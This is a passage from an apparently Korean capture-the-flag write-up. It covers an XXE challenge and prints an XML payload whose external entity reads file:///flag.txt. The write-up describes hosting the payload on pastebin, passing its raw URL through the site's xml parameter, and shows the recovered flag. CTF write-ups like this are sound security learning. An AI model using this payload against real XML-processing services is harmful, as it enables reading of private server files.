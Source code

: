 ```
<br>

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY flag SYSTEM "file:///flag.txt"> ]>
<root>
    <data> The flag is &flag;</data>
</root>
```

<br>

이제 이 flag 값을 불러오는 xml 파일을 해당 문제 사이트에서 xml 파라미터를 통해 불러와야 함. 

<a href="https://pastebin.com/" target="_blank">pastebin.com/</a>이라는 사이트를 이용함.      

create를 하면 임의의 사이트가 생성이 되고 raw를 통해 xml파일을 볼 수 있음. 이 주소를 xml의 값으로 전달해주면 flag가 출력됨.  

<br>

```flag : shkCTF{G3T_XX3D_f5ba4f9f9c9e0f41dd9df266b391447a}```

<br><br>
<hr style="border: 2px solid;">
<br><br>

